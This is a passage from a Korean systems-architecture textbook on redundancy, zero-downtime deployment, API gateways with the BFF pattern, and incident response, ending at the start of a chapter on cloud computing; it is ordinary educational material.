예를 들어 서버가 100대 있어도 인터넷 관문에 스위칭 허브나 로드 밸런서가 단 1대뿐이라면, 그 허브에 번개가 치는 순간 100대의 서버는 무용지물이 됩니다.

```mermaid
flowchart LR
    subgraph SPOF["단일 장애점 (SPOF 존재)"]
        Users1["사용자"] --> SingleLB["단일 로드 밸런서\n(SPOF!)"]
        SingleLB --> S1["서버 1"]
        SingleLB --> S2["서버 2"]
    end

    subgraph Redundancy["이중화 구성 (HA 달성)"]
        Users2["사용자"] --> VIP["가상 IP (Floating VIP)"]
        VIP --> LB_A["LB Master (Active)"]
        VIP -. "Heartbeat 감시 / Failover" .-> LB_B["LB Standby"]
        LB_A --> S3["서버 A"]
        LB_A --> S4["서버 B"]
        LB_B --> S3
        LB_B --> S4
    end
```

* **이중화(Redundancy)**: 시스템의 모든 핵심 계층(DNS, 방화벽, L4 스위치, API Gateway, WAS, Database, 스토리지, 전원 공급 장치)에 예비 자원을 2벌 이상 배치하여 하나의 노드가 파괴되어도 시스템 전체의 연속성을 유지하는 기술입니다.

---

### 7.2 고가용성 클러스터링 모델: Active-Active vs Active-Standby

#### 1. Active-Active (액티브-액티브)
* **동작 방식**: 이중화된 2개 이상의 노드가 **모두 동시에 가동**되며, 로드 밸런서에 의해 실제 트래픽을 분산 처리합니다.
* **장점**: 모든 인프라 자원을 100% 활용하므로 처리량이 극대화되며, 평소에도 투자 비용 대비 높은 효율을 냅니다.
* **고려 사항**: 두 노드 간의 실시간 데이터 동기화와 세션 정합성을 유지해야 하므로 구현 복잡도가 높습니다.

#### 2. Active-Standby (액티브-스탠바이 / Failover 모델)
* **동작 방식**: 1대의 노드만 실제 트래픽을 처리(Active)하고, 다른 1대의 예비 노드는 평소에 대기(Standby) 상태를 유지합니다.
* **페일오버(Failover)**: Active 노드가 두 노드 간에 주고받는 하트비트(Heartbeat, 생존 신호)를 보내지 못하면, 감시 에이전트(Keepalived 등)가 Active의 사망을 선언하고 가상 IP(VIP)를 즉시 Standby 노드로 전환(Takeover)합니다.
* **Standby의 세 가지 형태**:
  * **Hot Standby**: 전원이 켜져 있고 DB 복제(Replication)가 실시간으로 돌고 있어 수 초 내에 즉시 승격 가능한 상태.
  * **Warm Standby**: 시스템은 준비되어 있으나 트래픽을 받기까지 일부 초기화 작업(캐시 워밍 등)이 필요한 상태.
  * **Cold Standby**: 평소엔 꺼져 있다가 장애 시 수동으로 전원을 켜고 백업본을 복원하는 상태 (복구 시간 수 시간 소요).
* **스플릿 브레인(Split-Brain) 문제**: 두 노드 간의 네트워크 회선만 끊어지고 노드는 둘 다 살아있을 때, 서로 상대방이 죽었다고 판단하여 양쪽 모두 자신이 Active라고 주장하며 데이터를 독자 수정하여 데이터가 영구 파괴되는 현상입니다. 이를 방지하기 위해 정족수(Quorum, 홀수 노드 투표)나 펜싱(Fencing / STONITH) 메커니즘을 반드시 적용해야 합니다.

---

### 7.3 현대 3대 무중단 배포(Zero-Downtime Deployment) 전략

소프트웨어 신규 버전을 배포할 때 사용자의 요청을 단 한 건도 유실하지 않고 자연스럽게 최신 코드로 갈아타는 배포 아키텍처입니다.

```mermaid
flowchart TD
    subgraph Rolling["1. 롤링 (Rolling) 배포"]
        R_LB["로드 밸런서"] --> R_v1["인스턴스 1 (v1 유지)"]
        R_LB --> R_v2["인스턴스 2 (v2 교체 완료)"]
        R_LB -. "트래픽 차단 후 v2 배포 중" .-> R_v3["인스턴스 3 (배포 중...)"]
    end

    subgraph BlueGreen["2. 블루-그린 (Blue-Green) 배포"]
        BG_LB["로드 밸런서"] == "라우팅 스위칭 (100%)" ==> Green["Green 환경 (신버전 v2.0 - 100% 가동)"]
        BG_LB -. "트래픽 차단" .-> Blue["Blue 환경 (구버전 v1.0 - 대기 또는 폐기)"]
    end

    subgraph Canary["3. 카나리 (Canary) 배포"]
        C_LB["로드 밸런서 (가중치 라우팅)"]
        C_LB == "90% 일반 트래픽" ==> C_v1["구버전 v1 (안정 버전)"]
        C_LB == "10% 실험 트래픽" ==> C_v2["신버전 v2 (카나리아 모니터링)"]
    end
```

#### 1. 롤링(Rolling) 배포
* **동작 원리**: 로드 밸런서의 연결을 하나씩 끊어가며 서버 인스턴스를 한 대씩 순차적으로 새 버전으로 교체합니다.
* **장점**: 추가적인 하드웨어 인프라 비용이 거의 들지 않습니다.
* **단점**:
  * 배포가 진행되는 동안 구버전(v1)과 신버전(v2) 서버가 동시에 트래픽을 처리하므로 **버전 호환성 문제(Backward Compatibility)**가 발생할 수 있습니다 (DB 스키마가 바뀌었을 때 치명적).
  * 롤백을 하려면 다시 한 대씩 순차적으로 다운그레이드해야 하므로 롤백 속도가 느립니다.

#### 2. 블루-그린(Blue-Green) 배포
* **동작 원리**: 구버전 환경(Blue)과 똑같은 크기의 신버전 환경(Green)을 100% 동일하게 완전히 새롭게 구축합니다. Green에 대한 모든 테스트가 끝나면 로드 밸런서의 가상 스위치를 단 1초 만에 Blue에서 Green으로 전환합니다.
* **장점**:
  * 구버전과 신버전이 공존하는 과도기가 전혀 없습니다.
  * 신버전에 치명적인 결함이 발견되면 스위치를 다시 Blue로 되돌리기만 하면 되므로 **롤백이 수 초 만에 즉각 완료**됩니다.
* **단점**: 배포 순간에 서버 인프라 자원이 2배로 소모되므로 비용이 많이 듭니다.

#### 3. 카나리(Canary) 배포
* **어원**: 과거 광부들이 유독가스에 민감한 카나리아 새를 먼저 갱도에 넣어 위험을 감지했던 관행에서 유래했습니다.
* **동작 원리**: 신버전을 전체에 배포하기 전에 소수의 서버(또는 전체 트래픽의 1% → 5% → 20%)에만 신버전을 흘려보냅니다. APM 모니터링을 통해 에러율과 레이턴시를 관찰한 뒤 안전성이 검증되면 점진적으로 100%까지 확대합니다.
* **장점**: 실제 프로덕션 환경에서 실제 사용자 트래픽으로 안전하게 A/B 테스팅 및 잠재적 버그를 검증할 수 있으며, 장애가 발생해도 소수의 사용자에게만 국한됩니다.
* **단점**: 가중치 기반 라우팅(L7 로드 밸런서, 서비스 메시) 설정이 정교해야 하며, 롤링과 마찬가지로 구/신버전 공존 기간에 대한 하위 호환성 처리가 필수적입니다.

#### 무중단 배포 전략 종합 비교표

| 비교 항목 | 롤링 (Rolling) | 블루-그린 (Blue-Green) | 카나리 (Canary) |
| :--- | :--- | :--- | :--- |
| **추가 인프라 비용** | 없음 또는 매우 적음 (1대분) | **매우 큼 (인프라 2배 필요)** | 적음 (일부 인스턴스만 신버전) |
| **롤백 소요 시간** | 느림 (역순차 재배포 필요) | **극도로 빠름 (스위치 즉각 전환)** | 빠름 (카나리 트래픽 즉시 차단) |
| **구/신버전 공존 여부**| **있음 (호환성 설계 필수)** | **없음 (완전 분리)** | **있음 (점진적 전환 기간)** |
| **실제 트래픽 사전 검증**| 불가 | 불가 (내부 테스트만 가능) | **가능 (실제 트래픽 위험 감지)** |
| **라우팅 제어 복잡도** | 단순 (헬스체크 기반 탈락) | 보통 (DNS 또는 VIP 스위칭) | **매우 높음 (가중치/헤더 라우팅)** |
| **추천 사용 환경** | 일반적인 웹 애플리케이션 | 엔터프라이즈 미션 크리티컬 시스템 | 초대규모 B2C 서비스, 리스크 높은 기능 |

---

## (+) API 게이트웨이(API Gateway)는 무엇인가요?
> **클라이언트 단일 진입점, 라우팅, 인증/인가, Rate Limiting, SSL 종단, 서비스 가상화, BFF(Backend For Frontend) 패턴**

마이크로서비스 아키텍처(MSA)나 다중 분산 서버 환경으로 넘어가면, 클라이언트(모바일 앱, 웹 브라우저)는 당혹스러운 상황에 빠집니다. 화면 하나를 그리기 위해 회원 서버, 주문 서버, 상품 서버, 리뷰 서버, 결제 서버 등 수십 개의 서로 다른 서버 IP와 포트를 일일이 호출해야 하기 때문입니다.  
이 문제를 해결하기 위해 시스템의 최전방에 배치하는 마법 같은 단일 관문이 바로 **API 게이트웨이(API Gateway)**입니다.

---

### 8.1 API Gateway 없는 구조의 참사 vs API Gateway 도입 후

```mermaid
flowchart LR
    subgraph WithoutGW["API Gateway가 없는 혼돈 (Direct Connection)"]
        Client1["모바일 앱"]
        Client1 --> S1["회원 서비스 (Port: 8081)"]
        Client1 --> S2["주문 서비스 (Port: 8082)"]
        Client1 --> S3["결제 서비스 (Port: 8083)"]
        Client1 --> S4["배송 서비스 (Port: 8084)"]
        Note over Client1: - 클라이언트 코드에 내부 IP 노출<br/>- N번의 SSL Handshake 오버헤드<br/>- 모든 마이크로서비스마다 인증 로직 중복 구현
    end

    subgraph WithGW["API Gateway를 통한 질서 (Single Entry Point)"]
        Client2["모바일 앱 / 웹"] == "https://api.mycompany.com" ==> APIGW["API GATEWAY\n[단일 진입점 & 공통 처리]"]
        APIGW --> MS1["회원 서비스"]
        APIGW --> MS2["주문 서비스"]
        APIGW --> MS3["결제 서비스"]
        APIGW --> MS4["배송 서비스"]
    end
```

---

### 8.2 API Gateway의 7대 핵심 기능

1. **단일 진입점(Single Entry Point)과 동적 역방향 프록시(Reverse Proxy Routing)**
   * 클라이언트는 오직 게이트웨이 도메인(`api.service.com`) 하나만 바라봅니다.
   * 게이트웨이는 요청 URI 경로(Path)를 분석하여 `/api/v1/users/**`는 회원 서비스로, `/api/v1/orders/**`는 주문 서비스로 트래픽을 똑똑하게 라우팅합니다.
2. **중앙 집중식 인증 및 인가 (Authentication & Authorization)**
   * 모든 마이크로서비스가 각자 JWT 토큰을 검증하고 공개키를 조회할 필요가 없습니다.
   * API Gateway 최전방에서 토큰의 유효성을 1차 검증하고, 유효한 요청이라면 토큰을 디코딩하여 내부 헤더(`X-User-Id: 1024`, `X-User-Role: ADMIN`)에 심어서 내부 마이크로서비스로 전달합니다.
3. **트래픽 제어 및 속도 제한 (Rate Limiting & Throttling)**
   * 악의적인 크롤러나 DDoS 공격, 비정상적인 버그로 인한 무한 루프 요청을 차단합니다.
   * **토큰 버킷(Token Bucket) 알고리즘**이나 **누출 버킷(Leaky Bucket)** 알고리즘을 사용하여 IP당 또는 유저당 *"1초에 최대 100회 요청까지만 허용"*하고 초과분은 `429 Too Many Requests`로 쳐냅니다.
4. **SSL/TLS 종단 (SSL Termination)**
   * 무거운 암호화/복호화 연산인 HTTPS 핸드셰이크를 게이트웨이에서 끝냅니다.
   * 게이트웨이와 내부 마이크로서비스 간의 통신은 안전한 사설 VPC망 내부에서 고속 HTTP/1.1이나 gRPC 평문 통신으로 처리하여 백엔드 WAS의 CPU 부담을 대폭 덜어줍니다.
5. **프로토콜 및 요청/응답 변환 (Protocol Translation)**
   * 외부 클라이언트와는 표준적인 RESTful JSON으로 통신하고, 내부 마이크로서비스들 간에는 초고속 바이너리 RPC인 **gRPC**나 **Protobuf**로 변환하여 중계할 수 있습니다.
6. **서킷 브레이커(Circuit Breaker) 연동 및 폴백(Fallback)**
   * 특정 다운스트림 마이크로서비스(예: 추천 엔진)가 완전히 다운되었을 때, 게이트웨이가 요청을 차단하고 미리 정의된 기본값(Default Best Seller 목록)을 즉시 반환(Fallback)하여 사용자가 에러 화면을 보지 않도록 보호합니다.
7. **중앙 로깅, 메트릭, 분산 추적 헤더 주입**
   * 유입되는 모든 패킷에 고유한 `X-Request-Id`와 `Trace-Id`를 발급하고, 접근 로그(Access Log)를 중앙에서 집계합니다.

---

### 8.3 BFF (Backend For Frontend) 패턴의 진화

서비스가 발전하면 클라이언트의 종류가 웹 브라우저(데스크톱), 스마트폰(iOS/Android 모바일 앱), 스마트 TV, 스마트 워치 등으로 다변화됩니다.
* 데스크톱 웹 화면은 해상도가 넓어 주문 목록과 함께 고객 프로필, 배송 추적, 추천 상품까지 한 번에 많은 데이터를 필요로 합니다.
* 반면 모바일 앱은 화면이 좁고 LTE/5G 무선 네트워크 대역폭과 배터리가 제한적이므로 핵심 필드 몇 개만 가볍게 내려주길 원합니다.

단 하나의 거대한 범용 API Gateway로 모든 클라이언트의 입맛을 맞추려다 보면 게이트웨이 코드가 누더기가 됩니다. 이를 해결하기 위해 등장한 아키텍처가 **BFF(Backend For Frontend)** 패턴입니다.

```mermaid
flowchart TD
    WebBrowser["PC 웹 브라우저 (화면 큼, 초고속 유선)"] --> WebBFF["Web 전용 BFF"]
    MobileApp["모바일 앱 (화면 작음, 무선 네트워크)"] --> MobileBFF["Mobile 전용 BFF"]
    IoTDevice["스마트 TV / IoT (극도로 제한된 자원)"] --> IoTBFF["IoT 전용 BFF"]

    subgraph Microservices["백엔드 마이크로서비스 클러스터"]
        UserSvc["회원 서비스"]
        OrderSvc["주문 서비스"]
        ProductSvc["상품 서비스"]
    end

    WebBFF --> UserSvc & OrderSvc & ProductSvc
    MobileBFF --> UserSvc & OrderSvc & ProductSvc
    IoTBFF --> UserSvc & ProductSvc
```

* **개념**: 프론트엔드의 각 클라이언트 유형(Web, Mobile, Third-Party API)에 1:1로 특화된 전용 게이트웨이를 따로 두는 방식입니다.
* **장점**: 
  * 모바일 프론트엔드 개발팀이 모바일 BFF의 API 스펙과 데이터 가공 로직을 직접 주도적으로 개발할 수 있습니다.
  * 불필요한 필드를 걸러내는 데이터 다이어트(Over-fetching 방지)와 여러 마이크로서비스 호출 결과를 단 한 번의 호출로 묶어주는 API 집합(Aggregation, Under-fetching 방지)을 클라이언트 최적화 수준으로 완벽하게 달성할 수 있습니다.

---

## (+) 서비스 장애가 발생하면 어떻게 대응해야 하나요?
> **장애 대응 라이프사이클: 모니터링/경보 감지 -> 장애 격리(서킷 브레이커) -> 긴급 복구(롤백/우회) -> 근본 원인 분석(RCA) 및 사후 검토(Post-mortem) 문화**

세계적인 분산 시스템의 거두 버너 보겔스(Werner Vogels, Amazon CTO)는 시스템을 구축하는 모든 엔지니어의 뇌리에 각인되어야 할 명언을 남겼습니다.

> *"모든 것은 항상 실패한다 (Everything fails, all the time)."*

하드웨어는 불시에 고장 나고, 네트워크 스위치는 패킷을 유실하며, 클라우드 가상 머신은 예고 없이 재부팅되고, 개발자는 실수로 버그를 배포합니다.  
성숙한 엔지니어링 조직과 아마추어 조직을 가르는 유일한 기준은 **"장애를 100% 안 낼 수 있는가?"**가 아니라, **"장애가 발생했을 때 얼마나 빠르고 우아하게 격리하고, 신속하게 복구하며, 똑같은 실수를 영원히 반복하지 않도록 시스템을 진화시키는가?"**에 있습니다.

---

### 9.1 장애 대응의 5단계 라이프사이클 (Incident Lifecycle)

```mermaid
flowchart LR
    D["1. 감지 및 경보\n(Detect & Alert)"] --> I["2. 장애 격리\n(Isolate & Contain)"]
    I --> M["3. 긴급 완화 및 복구\n(Mitigate & Recover)"]
    M --> R["4. 근본 원인 분석\n(RCA: Root Cause Analysis)"]
    R --> P["5. 사후 검토 및 문화\n(Blameless Post-mortem)"]
```

---

### 9.2 [1단계] 감지 및 경보 (Detect & Alert): 골든 시그널

장애가 났다는 사실을 고객이 고객센터(CS)에 전화해서 따질 때 알게 된다면 그 조직의 모니터링은 낙제점입니다. 시스템 이상은 발생 즉시 엔지니어에게 알람이 울려야 합니다.

Google SRE(Site Reliability Engineering)에서 정의한 **4대 골든 시그널(The Four Golden Signals)**:
1. **지연 시간 (Latency)**: 요청을 처리하는 데 걸리는 시간. 성공한 요청의 레이턴시뿐만 아니라 실패한 요청의 레이턴시도 추적해야 합니다.
2. **트래픽 (Traffic)**: 시스템에 가해지는 수요의 측정값 (초당 HTTP 요청 수, 초당 네트워크 I/O 전송량).
3. **오류율 (Errors)**: 명시적으로 실패한 요청의 비율 (HTTP 500 에러, 예외 발생 건수, 비즈니스 실패율).
4. **포화도 (Saturation)**: 시스템의 가장 제약이 심한 자원이 얼마나 꽉 찼는가를 나타내는 백분율 (CPU 사용률 90%, DB 커넥션 풀 98%, 메모리 잔여량).

> **경보 피로(Alert Fatigue) 방지**: 중요하지 않은 사소한 경고(Warning)로 온콜(On-Call) 엔지니어의 휴대폰을 새벽 내내 울려대면, 정작 서비스가 죽는 치명적인 P0(Sev-1) 장애 알람이 왔을 때 무시하게 됩니다. 즉각적인 조치가 필요한 실행 가능한(Actionable) 알람만 울리도록 정교하게 임계치를 튜닝해야 합니다.

---

### 9.3 [2단계] 장애 격리 (Isolate & Contain): 서킷 브레이커와 벌크헤드

어떤 한 서비스의 장애가 시스템 전체로 들불처럼 번져나가는 현상을 **카스케이드 장애(Cascading Failure, 연쇄 장애)**라고 합니다.
예를 들어 추천 서비스가 응답을 못 하고 지연되면, 주문 서버의 스레드가 추천 서버 응답을 기다리느라 하나씩 블로킹되고, 결국 주문 서버의 스레드 풀이 완전히 고갈되어 주문 전체가 멈춰버립니다.

이를 물리적으로 차단하기 위한 두 가지 핵심 패턴:

#### 1. 서킷 브레이커 (Circuit Breaker) 패턴
가정집 분전반의 두꺼비집(누전 차단기)과 똑같이 동작하는 소프트웨어 스위치입니다 (Resilience4j, Envoy 등).

```mermaid
stateDiagram-v2
    [*] --> Closed: 정상 상태

    Closed --> Open: 에러율 임계치 초과\n(예: 10초간 50% 이상 실패)
    note right of Open: 모든 호출을 즉시 차단!\n원격 서버를 부르지 않고\n미리 정의된 Fallback 기본값 즉시 반환

    Open --> HalfOpen: 대기 시간(Sleep Window) 경과\n(예: 60초 후)
    note right of HalfOpen: 소수의 시험 트래픽(Test Probe)만\n통과시켜 복구 여부 타진

    HalfOpen --> Closed: 시험 호출 연속 성공\n(서버 정상화 확인)
    HalfOpen --> Open: 시험 호출 실패\n(여전히 장애 지속)
```

#### 2. 벌크헤드 (Bulkhead, 격벽) 패턴
선박의 선체 바닥에 구멍이 뚫려 물이 차오를 때 배 전체가 침몰하지 않도록 방을 여러 개의 격벽(Bulkhead)으로 쪼개어 놓는 설계입니다.  
애플리케이션에서도 중요한 결제용 스레드 풀과 상대적으로 덜 중요한 리뷰 조회용 스레드 풀을 완전히 분리해 둡니다. 리뷰 서비스가 마비되어 리뷰 스레드가 다 타버려도 결제 스레드는 단 1개도 영향을 받지 않습니다.

---

### 9.4 [3단계] 긴급 완화 및 복구 (Mitigate & Recover)

> **장애 대응 중 가장 중요한 원칙: "원인 분석(Debugging)은 나중에 하고, 일단 환자의 숨(서비스)부터 살려라!"**

장애가 터졌을 때 서버에 터미널을 띄우고 수십만 줄의 로그 파일을 열어 코드 디버깅을 시작하는 것은 최악의 대응입니다.  
엔지니어의 최우선 목표는 시스템을 어떻게든 정상 상태로 되돌리는 **완화(Mitigation)**입니다.
1. **코드 롤백 (Rollback)**: 방금 배포가 나간 직후 장애가 났다면 코드를 분석하지 말고 즉시 직전의 안정적인 버전으로 롤백합니다.
2. **피처 플래그(Feature Flag) 끄기**: 새로 오픈한 기능이 문제라면 설정 관리 대시보드에서 해당 기능의 토글 스위치를 끕니다.
3. **트래픽 우회 및 트래픽 드롭 (Shed Load)**: 중요도가 낮은 백그라운드 배치 작업, 정산 작업, 추천 API를 차단하고 핵심 기능(로그인, 결제)에만 자원을 몰아줍니다.
4. **스케일아웃 임시 강제 증설**: CPU나 메모리 병목이라면 비용을 따지지 말고 인스턴스 대수를 3배로 늘려 버퍼를 확보합니다.

---

### 9.5 [4단계 & 5단계] 근본 원인 분석(RCA)과 비난 없는 사후 검토(Blameless Post-mortem)

서비스가 정상화되었다면, 이제 차분하게 근본 원인을 파헤치고 시스템을 개선할 시간입니다.

#### 5 Whys 기법을 통한 심층 인과관계 추적
표면적인 원인에서 멈추지 않고 "왜?"를 최소 5번 물어 인간의 실수가 아닌 **시스템 프로세스의 결함**을 찾아냅니다.
* **Q1**: 왜 결제 서비스가 다운되었는가? → **A**: DB 커넥션 풀이 고갈되었습니다.
* **Q2**: 왜 DB 커넥션 풀이 고갈되었는가? → **A**: 특정 쿼리가 30초 이상 풀 테이블 스캔을 하며 락을 잡았습니다.
* **Q3**: 왜 풀 테이블 스캔이 발생했는가? → **A**: 새로 추가된 쿼리에 인덱스가 걸려있지 않았습니다.
* **Q4**: 왜 인덱스가 누락된 채 프로덕션에 배포되었는가? → **A**: 스테이징 DB는 데이터가 100건뿐이라 인덱스 없이도 0.01초 만에 테스트를 통과했습니다.
* **Q5**: 왜 실제 데이터와 유사한 볼륨의 성능 테스트 파이프라인이 없었는가? → **A**: CI/CD 파이프라인에 쿼리 성능 검증(Explain Plan) 자동화 게이트가 없었기 때문입니다.
* **도출된 진짜 액션 아이템**: "개발자 주의 주기"가 아니라, **"CI/CD 파이프라인에 풀 테이블 스캔 쿼리 탐지 린터 자동 추가 및 스테이징 환경 대용량 데이터 시뮬레이션 구축"**이라는 시스템적 방어책이 수립됩니다.

#### 비난 없는 사후 검토 (Blameless Post-mortem) 문화
구글, 넷플릭스 등 세계 최고의 테크 기업들이 가장 엄격하게 지키는 원칙은 **"사람을 비난하지 않는다(Blameless)"**입니다.
* *"김 대리가 잘못된 명령어를 입력해서 DB가 날아갔습니다"*는 잘못된 보고서입니다.
* *"신입 개발자가 단 하나의 CLI 명령어로 프로덕션 DB를 삭제할 수 있도록 방치한 인프라 안전장치(권한 제어, 2인 승인 시스템)의 부재가 원인입니다"*가 올바른 엔지니어링 접근입니다.
* 사람을 처벌하면 엔지니어들은 다음부터 실수를 숨기고 은폐하여 더 거대한 재앙을 낳습니다. 시스템의 취약점을 투명하게 공개하고, 이를 방어하는 코드와 자동화된 테스트를 작성할 때 시스템은 비로소 단단해집니다.

---

## PART 09 요약 및 아키텍트의 나침반

시스템 아키텍처의 세계에는 은총알이 없으며 오직 **트레이드오프(Trade-off)**만이 존재합니다.

```mermaid
flowchart TD
    Architect["시스템 아키텍트의 올바른 의사결정 나침반"]
    Architect --> C1["1. 비즈니스 단계에 맞는 적정 기술을 선택하십시오.\n(스타트업 초기부터 과도한 MSA로 자원을 낭비하지 마십시오)"]
    Architect --> C2["2. 무상태(Stateless) 설계를 지향하십시오.\n(스케일아웃과 탄력적 클라우드의 시작은 상태의 분리입니다)"]
    Architect --> C3["3. 캐시와 큐를 전략적으로 배치하십시오.\n(읽기 부하는 Redis로, 쓰기 부하는 Kafka로 완충하십시오)"]
    Architect --> C4["4. 모든 구성 요소의 단일 장애점(SPOF)을 제거하십시오.\n(이중화와 무중단 배포는 서비스의 기본 권리입니다)"]
    Architect --> C5["5. 장애를 피하려 하지 말고 포용(Embrace)하십시오.\n(서킷 브레이커로 격리하고, 비난 없는 포스트모템으로 진화하십시오)"]
```

| 핵심 영역 | 주요 개념 | 아키텍처 핵심 설계 지침 |
| :--- | :--- | :--- |
| **티어(Tier) 분리** | 1-Tier → 2-Tier → 3-Tier | 화면, 연산, 저장을 물리적으로 격리하여 보안, 유지보수성, DBCP 효율성 극대화 |
| **비기능 요구사항** | 가용성, 확장성, 성능, 보안, 복구성 | 단순 기능 구현(WHAT)을 넘어 대규모 트래픽을 견뎌내는 품질 속성(HOW WELL) 사수 |
| **확장 전략** | Scale-up vs Scale-out | 하드웨어 교체의 한계를 넘어 무상태(Stateless) 설계를 통한 유연한 수평 확장 달성 |
| **분산 처리 비유** | 스타벅스 매장 운영 모델 | 캐셔(Gateway) - 바리스타(WAS) - 창고(DB) - 식수대(Cache) - 진동벨(Message Queue) |
| **캐시와 Redis** | In-Memory, Cache-Aside, Stampede | RAM 기반 초고속 데이터 접근, 분산 락과 TTL Jitter를 통한 Thundering Herd 방지 |
| **마이크로서비스** | Monolith vs MSA, SAGA, Tracing | 서비스별 독립 배포와 자율성을 획득하되, 분산 트랜잭션과 추적의 복잡성을 철저히 대비 |
| **고가용성 & 배포** | SPOF 제거, 롤링/블루그린/카나리 | Active-Active/Standby 이중화와 비즈니스 무중단을 보장하는 점진적 배포 전략 |
| **API 관문** | API Gateway & BFF 패턴 | 단일 진입점, 라우팅, 인증/인가, Rate Limiting 통합 및 프론트엔드별 맞춤형 API 제공 |
| **장애 대응 문화** | Golden Signals, 서킷 브레이커, RCA | 골든 시그널 기반 감지, 연쇄 장애 격리, 5 Whys와 비난 없는 사후 검토(Blameless) |


---

# PART 10. 클라우드, 빅데이터, 인공지능 (Cloud, Big Data, and AI)

> **"소프트웨어가 세상을 집어삼키고 있다면, 클라우드는 그 소프트웨어가 뛰어노는 거대한 대지이며, 빅데이터는 대지를 비옥하게 만드는 원유이고, 인공지능은 그 위에서 스스로 사고하고 꽃을 피우는 두뇌입니다."**  
> 오늘날 현대 IT 엔지니어링은 더 이상 물리적인 서버의 볼트를 조이거나 단일 컴퓨터의 성능에 갇혀 있지 않습니다. 인터넷이라는 광활한 고속 통신망을 통해 지구 반대편의 슈퍼컴퓨터 수만 대를 초 단위로 부르고 해산하며, 매초 쏟아지는 수억 건의 데이터 스트림에서 보석 같은 비즈니스 통찰을 캐내고, 마침내 인간의 지적 노동을 보조하고 확장하는 생성형 AI(Generative AI)에 도달했습니다.  
> 
> 이 책의 마지막을 장식하는 이번 PART 10에서는 현대 디지털 문명을 지탱하는 세 가지 핵심 축인 **클라우드(Cloud)**, **빅데이터(Big Data)**, 그리고 **인공지능(AI/ML/LLM)**의 기술적 본질과 설계 원리를 가장 밑바닥 인프라부터 최첨단 인공지능 아키텍처까지 한 폭의 지도처럼 명쾌하게 펼쳐 보여드립니다.

---

## 01. 클라우드 컴퓨팅이란 무엇인가요?
> **온프레미스(자체 데이터센터)의 한계와 클라우드의 등장, 인터넷을 통해 IT 자원을 빌려 쓰는 온디맨드 모델**

우리가 매일 사용하는 스마트폰 앱, 온라인 뱅킹, 동영상 스트리밍 서비스의 뒷단에는 수많은 서버와 스토리지, 네트워크 장비가 24시간 365일 쉼 없이 돌아가고 있습니다. 불과 십수 년 전만 해도 이러한 IT 시스템을 운영하려면 회사가 직접 건물을 짓거나 임대하여 서버 컴퓨터를 구매해 꽂아 넣어야 했습니다. 

하지만 오늘날 스타트업부터 포춘 500대 글로벌 대기업에 이르기까지, 물리적인 서버를 직접 소유하는 대신 **클라우드(Cloud)**를 선택하고 있습니다. 클라우드 컴퓨팅이란 도대체 무엇이며, 왜 세상을 이토록 극적으로 바꾸어 놓았을까요?

---

### 1.1 온프레미스(On-Premises)의 황금기와 그 치명적인 한계

**온프레미스(On-Premises)**란 기업이 자체적으로 보유한 전산실이나 외부 IDC(Internet Data Center)의 물리적 공간(랙, Rack)을 임대하여, 서버 컴퓨터, 스위치, 라우터, 스토리지, 보안 장비 등을 직접 구매하고 설치하여 운영하는 전통적인 인프라 구축 방식을 의미합니다.

과거 온프레미스 환경에서 새로운 서비스를 론칭하려면 다음과 같은 고통스러운 과정을 거쳐야만 했습니다.

```mermaid
flowchart LR
    A["용량 산정 (Capacity Planning)"] --> B["서버 견적 및 구매 품의"]
    B --> C["납품 및 통관 대기 (4~8주)"]
    C --> D["IDC 입고 및 랙 마운팅"]
    D --> E["OS 설치 및 네트워크 배선"]
    E --> F["서비스 배포 (총 2~3개월 소요)"]
```

이러한 온프레미스 방식은 인프라를 완전히 통제할 수 있다는 장점이 있었지만, 다음과 같은 치명적인 한계를 안고 있었습니다.

1. **용량 산정(Capacity Planning)의 딜레마:**
   - 서비스 오픈 전에는 미래의 트래픽을 정확히 예측하기가 불가능합니다.
   - **과잉 투자(Over-provisioning):** 블랙프라이데이나 수강신청 등 1년에 며칠 되지 않는 피크(Peak) 트래픽에 맞춰 수억 원어치 서버를 사두면, 평상시에는 하드웨어의 90%가 유휴 상태(놀고 있는 상태)로 방치되어 막대한 자본이 낭비됩니다.
   - **과소 투자(Under-provisioning):** 반대로 예산을 아끼려 서버를 적게 샀다가 마케팅 대박이나 바이럴로 사용자가 폭증하면 서버가 즉각 다운되어 비즈니스 기회를 통째로 날려버립니다.
2. **느린 시장 대응 속도(Long Lead Time):**
   - 서버 증설이 필요해도 주문부터 세관 통관, IDC 입고, OS 설치, 케이블 연결까지 최소 수 주에서 수개월이 걸립니다. 변화무쌍한 현대 비즈니스 환경에서 이는 치명적인 약점입니다.
3. **가혹한 유지보수 부담과 단일 장애점(SPOF):**
   - 하드디스크 배드섹터 발생, 파워서플라이 고장, 냉방기(항온항습기) 고장, 무정전 전원장치(UPS) 배터리 폭발 등 하드웨어 장애가 일어날 때마다 엔지니어가 새벽에 IDC로 달려가 물리적 부품을 교체해야 했습니다.

---

### 1.2 클라우드 컴퓨팅(Cloud Computing)의 본질: 온디맨드 IT 유틸리티

**클라우드 컴퓨팅**은 이러한 물리적 제약을 일순간에 허물어뜨렸습니다. 

> **클라우드 컴퓨팅의 정의**  
> IT 자원(컴퓨팅 파워, 스토리지, 데이터베이스, 네트워킹 등)을 직접 소유하거나 물리적으로 관리할 필요 없이, **인터넷을 통해 언제 어디서나 필요한 만큼 주문형(On-demand)으로 빌려 쓰고, 사용한 만큼만 비용을 지불(Pay-as-you-go)하는 컴퓨팅 패러다임**입니다.

이것은 우리가 전기를 사용하는 방식과 완벽히 일치합니다. 집에서 냉장고나 에어컨을 켜기 위해 마당에 직접 화력 발전소나 풍력 발전기를 짓는 사람은 없습니다. 한국전력 같은 발전 사업자가 구축해 둔 거대한 전력망에서 콘센트 플러그를 꽂아 전기를 끌어 쓰고, 월말에 계량기에 찍힌 kw/h 단위만큼 요금을 냅니다. 클라우드는 **"IT 인프라의 전기화(Utility Computing)"**인 셈입니다.

```mermaid
flowchart TD
    subgraph CSP["글로벌 클라우드 제공자 (CSP: AWS, GCP, Azure)"]
        DC1["하이퍼스케일 데이터센터 (수십만 대의 물리 서버)"]
        Hyp["가상화 계층 (Hypervisor & Nitro)"]
        Pool["거대한 자원 풀 (CPU, RAM, Disk, Net)"]
        DC1 --> Hyp --> Pool
    end

    subgraph API["인터넷 (REST API / Web Console / CLI)"]
        Call["코드 한 줄로 온디맨드 프로비저닝 요청"]
    end

    subgraph User["엔지니어 / 기업"]
        Srv1["가상 서버 (EC2) 100대"]
        DB1["분산 DB (RDS/Spanner)"]
        Str1["페타바이트 스토리지 (S3)"]
    end

    User -->|몇 초 만에 생성 & 반납| API
    API --> Pool
    Pool -.->|즉시 할당| User
```

